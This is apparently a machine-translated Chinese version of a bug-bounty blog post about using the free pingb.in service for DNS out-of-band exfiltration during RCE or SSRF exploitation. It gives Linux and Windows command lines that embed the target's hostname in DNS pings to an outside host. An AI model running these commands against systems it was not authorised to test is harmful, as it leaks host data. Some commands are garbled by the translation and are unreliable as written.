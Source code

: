 # 一个简单的 DNS OOB 出口解决方案，或 pingb.in (life)hack

> 原文：<https://infosecwriteups.com/a-simple-dns-oob-exfil-solution-or-pingb-in-life-hack-45e6aa44fc49?source=collection_archive---------3----------------------->

![](img/5987c04022b157c4b4a6928e53701266.png)

有时候你想从生活中得到更多的东西，我不能帮你，但有时候你想从寻找臭虫中得到更多的东西，比如 P1 臭虫，RCE-s 和 SSRF-s 往往属于这种类型。我不能帮你找到那些 P1 错误，但是希望这篇文章能帮助你在面临某些限制时利用它们。

DNS OOB 出口是一个严重的错误猎人的武器库的重要组成部分。但是这种类型的外发连接旁路需要您设置一种方式来接收对您所拥有的服务器的 DNS 查询，您可以在那里记录传入的流量以供以后查看(指的是 burp collaborator 的唯一缺点，它可以在随机时间退出，或者您的计算机可能会崩溃，ISP 问题等。).虽然有一个免费的域名提供商，但我发现所有的教程都要求你使用付费的(据我所知，我很努力地寻找，甚至替代解决方案也让我头疼)，而且你已经在为你的 vps 服务器付费了，不管你有什么其他的“常规”账单，那么如果你不想为另一件事付费，该怎么办呢？嗯，我实际上找到了这个解决方案后，克制自己打破了我的键盘沮丧，我不能让免费域名提供商的 DNS 配置工作，根据我的理解，上述教程中的付费 DNS 配置被用来代替。另外，像 bind9 这样的选择也让我失望了，或者说我让他们失望了。不管怎样，都有解决的办法。

这种简单的解决方案基本上不需要任何配置，因此真正实现了零挫折。是的，你没看错，没有配置，甚至没有网络知识(虽然这将是有帮助的，只是一般来说)，它可以通过以下链接获得:

[http://pingb.in](http://pingb.in/)

访问该网站时，您的地址栏中会出现以下内容:

【http://pingb.in/randomstring 号

现在，在页面上您会看到各种选项。如您所见，乍一看，DNS 数据导出存在一些限制:

失败的示例:

如果你这样做:

# ping“uname”。

你什么也得不到，没有任何形式的回应。

成功范例:

但是以上面的例子为例，输入以下内容:

# ping randomstring

现在，您可以在输出中看到(尽管有错误，并且源 ip 是目标使用的 DNS 解析器):

![](img/59c8fe1158d72eaff7bf21f567b43589.png)

当然，对于其他数据导出，可以尝试这样做(分别从 linux 和 windows cmd 提示符下)

# ping randomstring . ` hostname ` . ns . ping b . in

c:\ > cmd/v/c " hostname > temp & & set/p MYVAR = < temp & & set FINAL = ae0f 8858 ee 70 fbfff 1d 8 B3 E1 d 90 a。！MYVAR！. ns.pingb.in && ping！决赛！”

并检查[http://pingb.in/random-string-that-you-used](http://pingb.in/random-string-that-you-used)并查看输出。

![](img/b53f87b5b5ff6b254e2790011d53bb23.png)

给你。它是免费的，不需要任何设置，它使用 ping，默认情况下任何操作系统都可以使用，如果你的电脑崩溃了，你可以访问:【http://pingb.in/random-string-that-you-used】T2，你仍然可以等待 pingbacks。它似乎会持续很长时间，但是如果有太多的 pingbacks，当你刷新页面时，它可能会将所有内容都删除。要记住的是，你应该密切关注它，并在计算机崩溃后立即打开页面，以避免潜在的遗漏 pingbacks。

额外的想法或我希望我在 RCE 自动测试一个非常大的子域列表时考虑的:当你想知道 pingback 的来源时:

ping randomstring . target-subdomain . target . com . ns . pingb in